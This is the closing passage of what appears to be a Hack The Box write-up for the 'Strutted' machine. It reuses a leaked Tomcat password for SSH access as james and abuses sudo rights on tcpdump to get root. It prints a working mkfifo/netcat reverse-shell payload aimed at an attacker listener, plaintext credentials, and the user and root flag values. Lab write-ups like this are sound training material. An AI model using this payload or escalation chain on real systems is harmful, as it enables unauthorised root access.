 ![](cybersecurity/images/Pasted%2520image%252020250325144246.png)

We got an user with a shell: `james`, if we remember the `tomcat-users.xml` file, we got a password in it, let's check the file again:


![](cybersecurity/images/Pasted%2520image%252020250325144416.png)

Let's test these credentials in ssh:

```
james:IT14d6SSP81k
```

![](cybersecurity/images/Pasted%2520image%252020250325144459.png)

They worked, let's read `user.txt`:

```
james@strutted:~$ cat user.txt
44a90bc1dcd2c965919256669e724c94
```

Now, we can begin by checking our sudo privileges with `sudo -l`:

![](cybersecurity/images/Pasted%2520image%252020250325144706.png)

We got sudo privileges on `/usr/sbin/tcpdump`, let's check it out on `gtfobins`:

![](cybersecurity/images/Pasted%2520image%252020250325144813.png)

We can do the following to get a reverse shell as root:

```
# Replace IP/PORT with your listener details
COMMAND='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP PORT >/tmp/f'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

Now, let's start a new listener with the specified port, we'll see this:

![](cybersecurity/images/Pasted%2520image%252020250325145323.png)

We got the root shell, let's read root flag:

![](cybersecurity/images/Pasted%2520image%252020250325145422.png)


```
root@strutted:/home/james# cat /root/root.txt
893db4ca4371dc763f7dc9aa9a709659
```


![](cybersecurity/images/Pasted%2520image%252020250325145445.png)

https://www.hackthebox.com/achievement/machine/1872557/644


